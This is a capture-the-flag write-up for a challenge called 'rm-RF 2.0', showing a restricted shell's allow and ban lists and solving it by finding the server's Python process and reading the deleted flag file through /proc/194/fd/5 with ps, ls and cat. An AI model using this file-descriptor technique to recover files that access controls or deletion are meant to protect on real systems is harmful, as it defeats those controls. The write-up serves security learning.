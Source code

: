 # Challenge name; rm-RF 2.0

### Desc

```
more like a shell

Netcat:
nc rmrf.ctf.teamquark.com 65322

For better experience:
rlwrap nc rmrf.ctf.teamquark.com 65322

```

# Writeup

```python

with open('./flag.txt', 'w') as flag:
    flag.write('quarkCTF{fake_flag_for_testing}')

flag = open('./flag.txt', 'r')

```

- It's creating a file called `flag.txt`
- Later it's reading the contents of flag and storing it in flag variable.


- The user can input commands but are filtered by the prgm on basis of : 

```python

def is_safe_command(cmd):
    allow = ['cat', 'ls', 'whoami', 'cd', 'ps', 'uname', 'date', 'wc']
    ban = ['rm', 'flag.txt', 'flag', 'chall.py', 'chall']
    for i in ban:
        if i in cmd:
            return False
    for i in allow:
        if (i in cmd):
            pattern = r'^[a-zA-Z0-9/. \-]+$'
            return bool(re.match(pattern, cmd))
    return False

```

- only commands under `allow` list can be executed.
- And regex of commands can only contain alpha numberic values with `. / -` in special characters
- And there's a ban list (ofc) which doesn't allow user to have those in their cmd.


- Following snippet tells us that server is deleting flag.txt if commands are executed on the shell

```python

    global count
    if line:
        count += 1
    if count > 1 and count < 3:
        #demnnnnn cmds are runninggggggggg on my shell
        os.system('rm ./flag.txt')

```

- hmmmmm, how to read flag.txt if it's getting deleted.
- As you know, `Everything in linux is a file`.
- This includes processes as well

#### Soln

- We can read the flag.txt because the `flag` variable inside the program has read it/load it.
- We just have to locate the process of the python program and read the files

- What does this mean?

```(gpt)

In Linux, /proc/<PID>/fd is a directory that contains symbolic links to the file
descriptors opened by the process with the corresponding process ID (PID).
Each entry in this directory represents a file descriptor (fd) of the process.


A file descriptor is a non-negative integer used to uniquely identify
an open file within a process. It serves as a reference to a file or
other input/output resource, such as a socket or a pipe.

```

- If a program opens a files, the data get's stored inside the /fd directory until the prgm exits.


#### Flag

```bash

user@rmRF$ ps
    PID TTY          TIME CMD
    193 ?        00:00:00 socat
    194 ?        00:00:00 python3
    196 ?        00:00:00 ps

```

- Yess there's our process id (194)
- If we list our fd

```bash

user@rmRF$ ls -la /proc/194/fd/
total 0
dr-x------. 2 ctf ctf  0 Feb 19 17:51 .
dr-xr-xr-x. 9 ctf ctf  0 Feb 19 17:51 ..
lrwx------. 1 ctf ctf 64 Feb 19 17:52 0 -> socket:[101506]
lrwx------. 1 ctf ctf 64 Feb 19 17:52 1 -> socket:[101506]
l-wx------. 1 ctf ctf 64 Feb 19 17:52 2 -> pipe:[38355]
lrwx------. 1 ctf ctf 64 Feb 19 17:52 3 -> socket:[101509]
lrwx------. 1 ctf ctf 64 Feb 19 17:52 4 -> socket:[101510]
lr-x------. 1 ctf ctf 64 Feb 19 17:51 5 -> /home/ctf/challenge/flag.txt (deleted)
lr-x------. 1 ctf ctf 64 Feb 19 17:52 6 -> pipe:[101546]
lrwx------. 1 ctf ctf 64 Feb 19 17:52 8 -> socket:[101507]

```

> lr-x------. 1 ctf ctf 64 Feb 19 17:51 5 -> /home/ctf/challenge/flag.txt (deleted)

- We can see our deleted file listed here.
- just cat it and grab the flag

```bash

user@rmRF$ cat /proc/194/fd/5
quarkCTF{D3lEt3D_fiL35_4r3_in-FD}

```
